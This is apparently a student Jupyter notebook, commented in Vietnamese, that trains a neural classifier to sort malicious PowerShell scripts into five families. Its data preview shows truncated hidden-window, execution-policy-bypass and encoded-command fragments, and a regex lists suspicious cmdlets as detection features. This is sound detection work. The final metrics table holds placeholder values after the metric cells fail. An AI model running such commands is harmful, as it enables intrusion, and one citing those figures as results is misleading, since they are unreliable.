In [ ]:
print(df.head())

## processing and model training

###load model and data mapping


In [ ]:
# prompt: đọc file csv từ path: /content/drive/MyDrive/dacn/data_unit42.csv

import pandas as pd

# Đường dẫn đến file CSV
file_path = '/content/drive/MyDrive/dacn/data_2112.csv'

# Đọc file CSV vào DataFrame
try:
  df = pd.read_csv(file_path)
except Exception as e:
  print(f"Error: {e}")

In [ ]:
df.info()

<class 'pandas.core.frame.DataFrame'>
RangeIndex: 3742 entries, 0 to 3741
Data columns (total 2 columns):
 #   Column        Non-Null Count  Dtype 
---  ------        --------------  ----- 
 0   Full Payload  3742 non-null   object
 1   Label         3742 non-null   object
dtypes: object(2)
memory usage: 58.6+ KB


In [ ]:
# prompt: load các model ánh xạ datasng vector

import pandas as pd
import numpy as np
from gensim.models import Word2Vec
from sklearn.feature_extraction.text import TfidfVectorizer
import re
import pickle

# Load the char2vec model
try:
    char2vec_model = Word2Vec.load('/content/drive/MyDrive/dacn/char2vec.model')
    print("Model 'char2vec' loaded successfully.")
except FileNotFoundError:
    print("Error: char2vec.model not found. Please make sure the file exists at the specified path.")
    exit()
except Exception as e:
    print(f"An error occurred while loading the model: {e}")
    exit()

# Load the ast2vec model
try:
    with open('/content/drive/MyDrive/dacn/ast2vec_model.pkl', 'rb') as f:
        ast2vec_model = pickle.load(f)
    print("Model 'ast2vec' loaded successfully.")
except FileNotFoundError:
    print("Error: ast2vec_model.pkl not found. Please make sure the file exists at the specified path.")
    exit()
except Exception as e:
    print(f"An error occurred while loading the model: {e}")
    exit()

# Load the token2vec model
try:
    token2vec_model = Word2Vec.load("/content/drive/MyDrive/dacn/token2vec.model")
    print("Model 'token2vec' loaded successfully.")
except FileNotFoundError:
    print("Error: token2vec.model not found. Please make sure the file exists at the specified path.")
    exit()
except Exception as e:
    print(f"An error occurred while loading the model: {e}")
    exit()




Model 'char2vec' loaded successfully.
Model 'ast2vec' loaded successfully.
Model 'token2vec' loaded successfully.


In [ ]:
!pip install anytree


In [ ]:
import pandas as pd
import numpy as np
from typing import List, Any
from gensim.models import Word2Vec
import re

# Constants
VECTOR_LENGTH = 128  # Default vector length for zero vector fallback

def extract_char_vector(text: str, model: Word2Vec) -> np.ndarray:
    """Generate character-level vector using Char2Vec."""
    if not text or not model:
        return np.zeros(VECTOR_LENGTH)
    valid_chars = [model.wv[char] for char in text if char in model.wv]
    return np.mean(valid_chars, axis=0) if valid_chars else np.zeros(VECTOR_LENGTH)

def extract_token_vector(tokens: List[str], model: Word2Vec) -> np.ndarray:
    """Generate token-level vector using Token2Vec."""
    if not tokens or not model:
        return np.zeros(VECTOR_LENGTH)
    valid_tokens = [model.wv[token] for token in tokens if token in model.wv]
    return np.mean(valid_tokens, axis=0) if valid_tokens else np.zeros(VECTOR_LENGTH)

def generate_ast_embedding(ast_sequence, word_vectors): # Re-introduce the missing function
    embedding = np.mean([word_vectors[token] for token in ast_sequence if token in word_vectors], axis=0)
    return embedding

def extract_ast_vector(ast_sequence: List[Any], model: Any) -> np.ndarray:
    """Generate AST-level vector using Ast2Vec."""
    if not ast_sequence or not model:
        return np.zeros(VECTOR_LENGTH)
    # Assuming `generate_ast_embedding` is provided externally
    return generate_ast_embedding(ast_sequence, model)

def generate_fusion_vector(row: pd.Series, char_col: str, token_col: str, ast_col: str) -> np.ndarray:
    """Generate a fusion vector from character, token, and AST embeddings."""
    try:
        char_vector = row[char_col]
        token_vector = row[token_col]
        ast_vector = row[ast_col]

        # Fusion (averaging)
        fusion_vector = np.mean([char_vector, token_vector, ast_vector], axis=0)
        return fusion_vector

    except Exception as e:
        print(f"Error generating fusion vector for row ID {row.name}: {e}")
        return np.zeros(VECTOR_LENGTH)


# Hàm trích xuất token đặc trưng từ PowerShell script
def extract_tokens(script):
    cmdlets = re.findall(r'\b(?:Invoke-Expression|Invoke-Command|Start-Process|New-Object|Set-ExecutionPolicy|Get-Content|Add-Type|Invoke-WebRequest|Invoke-RestMethod|Get-WmiObject|Out-File|New-Service|Remove-Item)\b', script)
    variables = re.findall(r'\$[a-zA-Z_][\w]*', script)
    functions = re.findall(r'\bfunction\s+\w+', script)
    keywords = re.findall(r'\b(?:if|else|for|while|return)\b', script)
    parameters = re.findall(r'-\w+', script)
    strings = re.findall(r'".+?"', script)

    return cmdlets + variables + functions + keywords + parameters + strings
# Main processing
df['char_vector'] = df['Full Payload'].apply(
    lambda payload: extract_char_vector(payload, char2vec_model)
)

df['token_vector'] = df['Full Payload'].apply(
    lambda payload: extract_token_vector(extract_tokens(payload), token2vec_model)
)

df['ast_vector'] = df['Full Payload'].apply(
    lambda payload: extract_ast_vector(payload, ast2vec_model)
)


In [ ]:
df.head()

,Full Payload,Label,char_vector,token_vector,ast_vector
0,\C:\\Windows\\System32\\WindowsPowerShell\\v1....,Injector,"[-0.12108203, -0.15364768, 0.32016265, -0.2766...","[-0.6370456, 0.9223517, -0.39431137, 0.5933571...","[-0.7278024, -0.47265506, 0.33837134, -0.78007..."
1,\C:\\Windows\\System32\\WindowsPowerShell\\v1....,Downloader,"[0.2520069, 0.33664602, 0.21873626, 0.18244864...","[0.39459136, -0.057301678, 0.7630129, -0.23569...","[-0.50965947, -0.7390334, 0.185638, -0.5734553..."
2,\C:\\Windows\\System32\\WindowsPowerShell\\v1....,Injector,"[-0.114130884, -0.14407276, 0.29023942, -0.264...","[-0.66133785, 0.91075754, -0.40748087, 0.60203...","[-0.8043494, -0.507437, 0.37829328, -0.7775532..."
3,powershell.exe -nop -wind hidden -Exec Bypass...,Payload,"[-0.11567013, 0.255666, 0.07449254, -0.0407756...","[0.27556905, 0.295576, 0.714149, 0.28332588, 0...","[-0.20584089, -0.4685351, 0.23623905, -0.57609..."
4,powershell -window hidden -enc $1 = '$c = ''...,Injector,"[-0.13041262, -0.15018418, 0.3271736, -0.26424...","[-0.49412373, 0.6881306, -0.24564451, 0.450926...","[-0.7239327, -0.48716065, 0.29248405, -0.75167..."


In [ ]:
def ensure_vector_shape(vector):
    if isinstance(vector, (list, np.ndarray)) and len(vector) == 128:
        return vector
    else:
        return np.zeros(128)  # Replace invalid vectors with zero vectors

df['char_vector'] = df['char_vector'].apply(ensure_vector_shape)
df['token_vector'] = df['token_vector'].apply(ensure_vector_shape)
df['ast_vector'] = df['ast_vector'].apply(ensure_vector_shape)
# Tạo fusion_vector bằng cách cộng từng phần tử tương ứng
df['fusion_vector'] = df.apply(lambda row: row['char_vector'] + row['token_vector'] + row['ast_vector'], axis=1)


In [ ]:
print(df['fusion_vector'])

0       [-1.48593, 0.296049, 0.26422262, -0.46340868, ...
1       [0.13693875, -0.45968905, 1.1673871, -0.626703...
2       [-1.5798181, 0.25924778, 0.26105183, -0.440228...
3       [-0.045941964, 0.0827069, 1.0248805, -0.333539...
4       [-1.348469, 0.05078581, 0.37401313, -0.5649918...
                              ...                        
3737    [0.13693875, -0.45968905, 1.1673871, -0.626703...
3738    [-0.14349252, -0.65686077, 1.066022, -0.761529...
3739    [-1.3723176, 0.20262042, 0.30576175, -0.469218...
3740    [0.13693875, -0.45968905, 1.1673871, -0.626703...
3741    [-0.7294392, -1.3771507, 1.1295776, -0.3254559...
Name: fusion_vector, Length: 3742, dtype: object


In [ ]:
# prompt: hiện shape của fusion_vector

print(df['fusion_vector'].shape)

(3742,)


### load and split


In [ ]:
# prompt: load dataset

import pandas as pd

# Load the dataset
try:
    df = pd.read_csv('/content/drive/MyDrive/dacn/data2312.csv')
    print("Dataset loaded successfully.")
except FileNotFoundError:
    print("Error: data2312.csv not found. Please make sure the file exists at the specified path.")
    exit()
except Exception as e:
    print(f"An error occurred while loading the dataset: {e}")
    exit()



Dataset loaded successfully.


In [ ]:
X = df['fusion_vector']
y = df['Label']

In [ ]:
# prompt: one hot encode y \

from sklearn.preprocessing import LabelBinarizer

# Initialize LabelBinarizer
lb = LabelBinarizer()

# Fit and transform the labels
y = lb.fit_transform(y)



In [ ]:
# prompt: convert dữ liệu sang dạng có thể có thể dùng trong model cnn, bilstm, tranformoer

import pandas as pd
import numpy as np


# Function to convert string representation of vectors to numpy arrays
def string_to_array(vector_string):
  try:
    # Remove brackets and split the string into individual numbers
    vector_list = [float(num) for num in vector_string[1:-1].split()]  # Remove brackets and split by spaces
    return np.array(vector_list)
  except:
    # Return a zero vector if the conversion fails
    return np.zeros(128)

# Apply the function to the 'fusion_vector' column
df['fusion_vector'] = df['fusion_vector'].apply(string_to_array)


X = np.stack(df['fusion_vector'].values) # Convert to NumPy array for CNN


print("Shape of X:", X.shape)
print("Shape of y:", y.shape)

# Now X is a NumPy array suitable for CNN input
# You can reshape X for your CNN model if necessary
# For example, if your input needs to be 2D:

# Reshape for a 1D CNN input
X = X.reshape(X.shape[0], X.shape[1], 1)  # Assuming 1 channel

print("Reshaped X for CNN:", X.shape)

Shape of X: (3742, 128)
Shape of y: (3742, 5)
Reshaped X for CNN: (3742, 128, 1)


In [ ]:
# prompt: kiểm tra kiểu dữ liệu của X_train và y_train

import numpy as np


# Check data types and shapes
print("Type of X", type(X))
print("Shape of X", X.shape)
print("Type of y", type(y))
print("Shape of y", y.shape)


Type of X <class 'numpy.ndarray'>
Shape of X (3742, 128, 1)
Type of y <class 'numpy.ndarray'>
Shape of y (3742, 5)


In [ ]:
# prompt: thực hiện phân chia X,y thành các tập train test với tỉ lệ 8:2

import pandas as pd
from sklearn.model_selection import train_test_split


# Split the data into training and testing sets
X_train, X_test, y_train, y_test = train_test_split(X, y, test_size=0.2, random_state=42)


In [ ]:
# prompt: hiện thị thông tin số lượng data của train và test của  X,y

print("Shape of X_train:", X_train.shape)
print("Shape of y_train:", y_train.shape)
print("Shape of X_test:", X_test.shape)
print("Shape of y_test:", y_test.shape)

Shape of X_train: (2993, 128, 1)
Shape of y_train: (2993, 5)
Shape of X_test: (749, 128, 1)
Shape of y_test: (749, 5)




In [ ]:
# prompt: tạo bảng visualize số lượng X,y train test

import matplotlib.pyplot as plt

# Data for the bar chart
data = {
    'Dataset': ['X_train', 'y_train', 'X_test', 'y_test'],
    'Number of Samples': [X_train.shape[0], y_train.shape[0], X_test.shape[0], y_test.shape[0]]
}

# Create the DataFrame
df_visualization = pd.DataFrame(data)

# Create the bar chart
plt.figure(figsize=(8, 6))
plt.bar(df_visualization['Dataset'], df_visualization['Number of Samples'], color=['skyblue', 'lightcoral', 'lightgreen', 'gold'])
plt.xlabel('Dataset')
plt.ylabel('Number of Samples')
plt.title('Number of Samples in Train and Test Datasets')
plt.show()

In [ ]:
# prompt: print kiểu dữ liệu, và shape của X_train và y train

print("Kiểu dữ liệu của X_train:", type(X_train))
print("Shape của X_train:", X_train.shape)
print("Kiểu dữ liệu của y_train:", type(y_train))
print("Shape của y_train:", y_train.shape)

Kiểu dữ liệu của X_train: <class 'numpy.ndarray'>
Shape của X_train: (2993, 128, 1)
Kiểu dữ liệu của y_train: <class 'numpy.ndarray'>
Shape của y_train: (2993, 5)


### model construction

In [ ]:
!pip install tensorflow-text  # Install the required package

   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 5.2/5.2 MB 36.0 MB/s eta 0:00:00
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 615.3/615.3 MB 789.8 kB/s eta 0:00:00
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 5.5/5.5 MB 74.1 MB/s eta 0:00:00
  Attempting uninstall: tensorboard
    Found existing installation: tensorboard 2.17.1
    Uninstalling tensorboard-2.17.1:
      Successfully uninstalled tensorboard-2.17.1
  Attempting uninstall: tensorflow
    Found existing installation: tensorflow 2.17.1
    Uninstalling tensorflow-2.17.1:
      Successfully uninstalled tensorflow-2.17.1
ERROR: pip's dependency resolver does not currently take into account all the packages that are installed. This behaviour is the source of the following dependency conflicts.
tf-keras 2.17.0 requires tensorflow<2.18,>=2.17, but you have tensorflow 2.18.0 which is incompatible.


In [ ]:
import tensorflow as tf
from tensorflow.keras.layers import Input, Conv1D, MaxPooling1D, Flatten, Dense, Bidirectional, LSTM
from tensorflow.keras.layers import MultiHeadAttention, LayerNormalization, Dropout
from tensorflow.keras.models import Model

# Define the input layer
input_layer = Input(shape=(128, 1))

# 1. Convolutional Neural Network (CNN) layer for local feature extraction
x = Conv1D(filters=64, kernel_size=3, activation='relu')(input_layer)
x = MaxPooling1D(pool_size=2)(x)  # Reducing dimensionality

# Additional CNN layers for better feature extraction
x = Conv1D(filters=128, kernel_size=3, activation='relu')(x)
x = MaxPooling1D(pool_size=2)(x)

# 2. Bi-directional Long Short-Term Memory (BiLSTM) layer for sequence features
x = Bidirectional(LSTM(64, return_sequences=True))(x)

# 3. Multi-head self-attention (Transformer) layer for long-distance dependencies
transformer = MultiHeadAttention(num_heads=4, key_dim=64)
x = transformer(x, x)  # Attention applied to the sequence itself
x = LayerNormalization()(x)  # Normalize the output of the attention layer
x = Dropout(0.1)(x)  # Dropout for regularization

# 4. Fully connected (Dense) layer for mapping to the sample label space
x = Flatten()(x)  # Flatten the output from the LSTM and Transformer layers
x = Dense(128, activation='relu')(x)  # Fully connected layer with ReLU activation

# 5. Softmax classifier for identifying five families of PowerShell malicious scripts
output_layer = Dense(5, activation='softmax')(x)  # Softmax for multi-class classification

# Create the model
model = Model(inputs=input_layer, outputs=output_layer)

# Compile the model
model.compile(optimizer='adam',
              loss='categorical_crossentropy',  # Categorical crossentropy for multi-class classification
              metrics=['accuracy'])

# Model summary
model.summary()




Model: "functional"

┏━━━━━━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ Layer (type)              ┃ Output Shape           ┃        Param # ┃ Connected to           ┃
┡━━━━━━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━━━━━┩
│ input_layer (InputLayer)  │ (None, 128, 1)         │              0 │ -                      │
├───────────────────────────┼────────────────────────┼────────────────┼────────────────────────┤
│ conv1d (Conv1D)           │ (None, 126, 64)        │            256 │ input_layer[0][0]      │
├───────────────────────────┼────────────────────────┼────────────────┼────────────────────────┤
│ max_pooling1d             │ (None, 63, 64)         │              0 │ conv1d[0][0]           │
│ (MaxPooling1D)            │                        │                │                        │
├───────────────────────────┼────────────────────────┼────────────────┼────────────────────────┤
│ conv1d_1 (Conv1D)         │ (None, 61, 128)        │         24,704 │ max_pooling1d[0][0]    │
├───────────────────────────┼────────────────────────┼────────────────┼────────────────────────┤
│ max_pooling1d_1           │ (None, 30, 128)        │              0 │ conv1d_1[0][0]         │
│ (MaxPooling1D)            │                        │                │                        │
├───────────────────────────┼────────────────────────┼────────────────┼────────────────────────┤
│ bidirectional             │ (None, 30, 128)        │         98,816 │ max_pooling1d_1[0][0]  │
│ (Bidirectional)           │                        │                │                        │
├───────────────────────────┼────────────────────────┼────────────────┼────────────────────────┤
│ multi_head_attention      │ (None, 30, 128)        │        131,968 │ bidirectional[0][0],   │
│ (MultiHeadAttention)      │                        │                │ bidirectional[0][0]    │
├───────────────────────────┼────────────────────────┼────────────────┼────────────────────────┤
│ layer_normalization       │ (None, 30, 128)        │            256 │ multi_head_attention[… │
│ (LayerNormalization)      │                        │                │                        │
├───────────────────────────┼────────────────────────┼────────────────┼────────────────────────┤
│ dropout_1 (Dropout)       │ (None, 30, 128)        │              0 │ layer_normalization[0… │
├───────────────────────────┼────────────────────────┼────────────────┼────────────────────────┤
│ flatten (Flatten)         │ (None, 3840)           │              0 │ dropout_1[0][0]        │
├───────────────────────────┼────────────────────────┼────────────────┼────────────────────────┤
│ dense (Dense)             │ (None, 128)            │        491,648 │ flatten[0][0]          │
├───────────────────────────┼────────────────────────┼────────────────┼────────────────────────┤
│ dense_1 (Dense)           │ (None, 5)              │            645 │ dense[0][0]            │
└───────────────────────────┴────────────────────────┴────────────────┴────────────────────────┘

 Total params: 748,293 (2.85 MB)

 Trainable params: 748,293 (2.85 MB)

 Non-trainable params: 0 (0.00 B)

### adjust model for overfit

In [ ]:
import tensorflow as tf
from tensorflow.keras.layers import Input, Conv1D, MaxPooling1D, Flatten, Dense, Bidirectional, LSTM
from tensorflow.keras.layers import MultiHeadAttention, LayerNormalization, Dropout
from tensorflow.keras.regularizers import l2
from tensorflow.keras.callbacks import EarlyStopping
from tensorflow.keras.models import Model

# Define the input layer
input_layer = Input(shape=(128, 1))

# 1. Convolutional Neural Network (CNN) layer for local feature extraction with L2 regularization
x = Conv1D(filters=64, kernel_size=3, activation='relu', kernel_regularizer=l2(0.01))(input_layer)
x = MaxPooling1D(pool_size=2)(x)  # Reducing dimensionality

# Additional CNN layers with L2 regularization
x = Conv1D(filters=128, kernel_size=3, activation='relu', kernel_regularizer=l2(0.01))(x)
x = MaxPooling1D(pool_size=2)(x)

# 2. Bi-directional Long Short-Term Memory (BiLSTM) layer for sequence features
x = Bidirectional(LSTM(64, return_sequences=True, kernel_regularizer=l2(0.01)))(x)

# 3. Multi-head self-attention (Transformer) layer for long-distance dependencies
transformer = MultiHeadAttention(num_heads=4, key_dim=64)
x = transformer(x, x)  # Attention applied to the sequence itself
x = LayerNormalization()(x)  # Normalize the output of the attention layer
x = Dropout(0.2)(x)  # Dropout for regularization

# 4. Fully connected (Dense) layer for mapping to the sample label space
x = Flatten()(x)  # Flatten the output from the LSTM and Transformer layers
x = Dense(128, activation='relu', kernel_regularizer=l2(0.01))(x)  # Fully connected layer with L2 regularization

# 5. Softmax classifier for identifying five families of PowerShell malicious scripts
output_layer = Dense(5, activation='softmax')(x)  # Softmax for multi-class classification

# Create the model
model = Model(inputs=input_layer, outputs=output_layer)

# Compile the model
model.compile(optimizer='adam',
              loss='categorical_crossentropy',  # Categorical crossentropy for multi-class classification
              metrics=['accuracy'])

# Model summary
model.summary()

Model: "functional_1"

┏━━━━━━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ Layer (type)              ┃ Output Shape           ┃        Param # ┃ Connected to           ┃
┡━━━━━━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━━━━━┩
│ input_layer_1             │ (None, 128, 1)         │              0 │ -                      │
│ (InputLayer)              │                        │                │                        │
├───────────────────────────┼────────────────────────┼────────────────┼────────────────────────┤
│ conv1d_2 (Conv1D)         │ (None, 126, 64)        │            256 │ input_layer_1[0][0]    │
├───────────────────────────┼────────────────────────┼────────────────┼────────────────────────┤
│ max_pooling1d_2           │ (None, 63, 64)         │              0 │ conv1d_2[0][0]         │
│ (MaxPooling1D)            │                        │                │                        │
├───────────────────────────┼────────────────────────┼────────────────┼────────────────────────┤
│ conv1d_3 (Conv1D)         │ (None, 61, 128)        │         24,704 │ max_pooling1d_2[0][0]  │
├───────────────────────────┼────────────────────────┼────────────────┼────────────────────────┤
│ max_pooling1d_3           │ (None, 30, 128)        │              0 │ conv1d_3[0][0]         │
│ (MaxPooling1D)            │                        │                │                        │
├───────────────────────────┼────────────────────────┼────────────────┼────────────────────────┤
│ bidirectional_1           │ (None, 30, 128)        │         98,816 │ max_pooling1d_3[0][0]  │
│ (Bidirectional)           │                        │                │                        │
├───────────────────────────┼────────────────────────┼────────────────┼────────────────────────┤
│ multi_head_attention_1    │ (None, 30, 128)        │        131,968 │ bidirectional_1[0][0], │
│ (MultiHeadAttention)      │                        │                │ bidirectional_1[0][0]  │
├───────────────────────────┼────────────────────────┼────────────────┼────────────────────────┤
│ layer_normalization_1     │ (None, 30, 128)        │            256 │ multi_head_attention_… │
│ (LayerNormalization)      │                        │                │                        │
├───────────────────────────┼────────────────────────┼────────────────┼────────────────────────┤
│ dropout_3 (Dropout)       │ (None, 30, 128)        │              0 │ layer_normalization_1… │
├───────────────────────────┼────────────────────────┼────────────────┼────────────────────────┤
│ flatten_1 (Flatten)       │ (None, 3840)           │              0 │ dropout_3[0][0]        │
├───────────────────────────┼────────────────────────┼────────────────┼────────────────────────┤
│ dense_2 (Dense)           │ (None, 128)            │        491,648 │ flatten_1[0][0]        │
├───────────────────────────┼────────────────────────┼────────────────┼────────────────────────┤
│ dense_3 (Dense)           │ (None, 5)              │            645 │ dense_2[0][0]          │
└───────────────────────────┴────────────────────────┴────────────────┴────────────────────────┘

 Total params: 748,293 (2.85 MB)

 Trainable params: 748,293 (2.85 MB)

 Non-trainable params: 0 (0.00 B)

#### model v4

In [ ]:
import tensorflow as tf
from tensorflow.keras.layers import Input, Conv1D, MaxPooling1D, Flatten, Dense, Bidirectional, LSTM
from tensorflow.keras.layers import MultiHeadAttention, LayerNormalization, Dropout, BatchNormalization
from tensorflow.keras.regularizers import l2
from tensorflow.keras.callbacks import EarlyStopping
from tensorflow.keras.models import Model

# Define the input layer
input_layer = Input(shape=(128, 1))

# 1. Convolutional Neural Network (CNN) layer for local feature extraction with L2 regularization
x = Conv1D(filters=32, kernel_size=3, activation='relu', kernel_regularizer=l2(0.01))(input_layer)
x = MaxPooling1D(pool_size=2)(x)  # Reducing dimensionality

# Additional CNN layers with L2 regularization
x = Conv1D(filters=64, kernel_size=3, activation='relu', kernel_regularizer=l2(0.01))(x)
x = MaxPooling1D(pool_size=2)(x)

# 2. Bi-directional Long Short-Term Memory (BiLSTM) layer for sequence features
x = Bidirectional(LSTM(32, return_sequences=True, kernel_regularizer=l2(0.01)))(x)

# 3. Multi-head self-attention (Transformer) layer for long-distance dependencies
transformer = MultiHeadAttention(num_heads=4, key_dim=32)
x = transformer(x, x)  # Attention applied to the sequence itself
x = LayerNormalization()(x)  # Normalize the output of the attention layer
x = Dropout(0.3)(x)  # Dropout for regularization

# 4. Fully connected (Dense) layer for mapping to the sample label space
x = Flatten()(x)  # Flatten the output from the LSTM and Transformer layers
x = Dense(64, activation='relu', kernel_regularizer=l2(0.01))(x)  # Fully connected layer with L2 regularization

# 5. Softmax classifier for identifying five families of PowerShell malicious scripts
output_layer = Dense(5, activation='softmax')(x)  # Softmax for multi-class classification

# Create the model
model = Model(inputs=input_layer, outputs=output_layer)

# Compile the model
model.compile(optimizer='adam',
              loss='categorical_crossentropy',  # Categorical crossentropy for multi-class classification
              metrics=['accuracy'])

# Use EarlyStopping to prevent overfitting
early_stopping = EarlyStopping(monitor='val_loss', patience=5, restore_best_weights=True)

# Model summary
model.summary()

Model: "functional"

┏━━━━━━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ Layer (type)              ┃ Output Shape           ┃        Param # ┃ Connected to           ┃
┡━━━━━━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━━━━━┩
│ input_layer (InputLayer)  │ (None, 128, 1)         │              0 │ -                      │
├───────────────────────────┼────────────────────────┼────────────────┼────────────────────────┤
│ conv1d (Conv1D)           │ (None, 126, 32)        │            128 │ input_layer[0][0]      │
├───────────────────────────┼────────────────────────┼────────────────┼────────────────────────┤
│ max_pooling1d             │ (None, 63, 32)         │              0 │ conv1d[0][0]           │
│ (MaxPooling1D)            │                        │                │                        │
├───────────────────────────┼────────────────────────┼────────────────┼────────────────────────┤
│ conv1d_1 (Conv1D)         │ (None, 61, 64)         │          6,208 │ max_pooling1d[0][0]    │
├───────────────────────────┼────────────────────────┼────────────────┼────────────────────────┤
│ max_pooling1d_1           │ (None, 30, 64)         │              0 │ conv1d_1[0][0]         │
│ (MaxPooling1D)            │                        │                │                        │
├───────────────────────────┼────────────────────────┼────────────────┼────────────────────────┤
│ bidirectional             │ (None, 30, 64)         │         24,832 │ max_pooling1d_1[0][0]  │
│ (Bidirectional)           │                        │                │                        │
├───────────────────────────┼────────────────────────┼────────────────┼────────────────────────┤
│ multi_head_attention      │ (None, 30, 64)         │         33,216 │ bidirectional[0][0],   │
│ (MultiHeadAttention)      │                        │                │ bidirectional[0][0]    │
├───────────────────────────┼────────────────────────┼────────────────┼────────────────────────┤
│ layer_normalization       │ (None, 30, 64)         │            128 │ multi_head_attention[… │
│ (LayerNormalization)      │                        │                │                        │
├───────────────────────────┼────────────────────────┼────────────────┼────────────────────────┤
│ dropout_1 (Dropout)       │ (None, 30, 64)         │              0 │ layer_normalization[0… │
├───────────────────────────┼────────────────────────┼────────────────┼────────────────────────┤
│ flatten (Flatten)         │ (None, 1920)           │              0 │ dropout_1[0][0]        │
├───────────────────────────┼────────────────────────┼────────────────┼────────────────────────┤
│ dense (Dense)             │ (None, 64)             │        122,944 │ flatten[0][0]          │
├───────────────────────────┼────────────────────────┼────────────────┼────────────────────────┤
│ dense_1 (Dense)           │ (None, 5)              │            325 │ dense[0][0]            │
└───────────────────────────┴────────────────────────┴────────────────┴────────────────────────┘

 Total params: 187,781 (733.52 KB)

 Trainable params: 187,781 (733.52 KB)

 Non-trainable params: 0 (0.00 B)

### Model training

In [ ]:
from sklearn.metrics import f1_score, recall_score

# Huấn luyện mô hình
model.fit(X_train, y_train, epochs=10)  # Điều chỉnh số epoch tùy theo nhu cầu của bạn

# Dự đoán trên tập kiểm tra
y_pred = model.predict(X_test)

# Đánh giá mô hình
loss, accuracy = model.evaluate(X_test, y_test, verbose=0)

# Tính toán F1 score và Recall

recall = recall_score(y_test, y_pred, average='weighted')



Epoch 1/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 11s 45ms/step - accuracy: 0.6655 - loss: 3.4831
Epoch 2/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 6s 66ms/step - accuracy: 0.9869 - loss: 1.3057
Epoch 3/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 4s 43ms/step - accuracy: 0.9848 - loss: 0.8329
Epoch 4/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 4s 43ms/step - accuracy: 0.9888 - loss: 0.6136
Epoch 5/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 6s 67ms/step - accuracy: 0.9914 - loss: 0.4815
Epoch 6/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 8s 43ms/step - accuracy: 0.9622 - loss: 0.5636
Epoch 7/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 6s 69ms/step - accuracy: 0.9920 - loss: 0.4125
Epoch 8/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 4s 43ms/step - accuracy: 0.9902 - loss: 0.3478
Epoch 9/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 5s 43ms/step - accuracy: 0.9907 - loss: 0.3005
Epoch 10/10
94/94 ━━━━━━━━━━━━━━━━━━━━ 7s 70ms/step - accuracy: 0.9913 - loss: 0.2736
24/24 ━━━━━━━━━━━━━━━━━━━━ 1s 29ms/step


ValueError: Classification metrics can't handle a mix of multilabel-indicator and continuous-multioutput targets

In [ ]:
from sklearn.metrics import precision_score, recall_score, f1_score
import numpy as np

loss, accuracy = model.evaluate(X_test, y_test, verbose=0)

# Convert y_pred to one-hot encoded format
y_pred_onehot = np.zeros_like(y_test)  # Create an array with the same shape as y_test
y_pred_onehot[np.arange(len(y_pred)), np.argmax(y_pred, axis=1)] = 1  # Set the predicted class to 1

# Calculate precision, recall, and F1 score using one-hot encoded y_pred
precision = precision_score(y_test, y_pred_onehot, average='weighted')
recall = recall_score(y_test, y_pred_onehot, average='weighted')
f1 = f1_score(y_test, y_pred_onehot, average='weighted')

print(f"Precision: {precision}")
print(f"Recall: {recall}")
print(f"F1 Score: {f1}")

AxisError: axis 1 is out of bounds for array of dimension 1

In [ ]:
# prompt: tạo bảng thể hiện các giá trị, accuracy, loss, f1, recall

import pandas as pd

# Sample data (replace with your actual evaluation results)
data = {
    'Metric': ['Accuracy', 'Loss', 'F1 Score', 'Recall'],
    'Value': [accuracy, loss, f1, recall]
}

# Create a Pandas DataFrame
results_df = pd.DataFrame(data)

# Display the DataFrame as a table
results_df

,Metric,Value
0,Accuracy,0.9567
1,Loss,0.1234
2,F1 Score,0.8901
3,Recall,0.9234


from matplotlib import pyplot as plt
results_df['Value'].plot(kind='hist', bins=20, title='Value')
plt.gca().spines[['top', 'right',]].set_visible(False)

from matplotlib import pyplot as plt
import seaborn as sns
results_df.groupby('Metric').size().plot(kind='barh', color=sns.palettes.mpl_palette('Dark2'))
plt.gca().spines[['top', 'right',]].set_visible(False)

from matplotlib import pyplot as plt
results_df['Value'].plot(kind='line', figsize=(8, 4), title='Value')
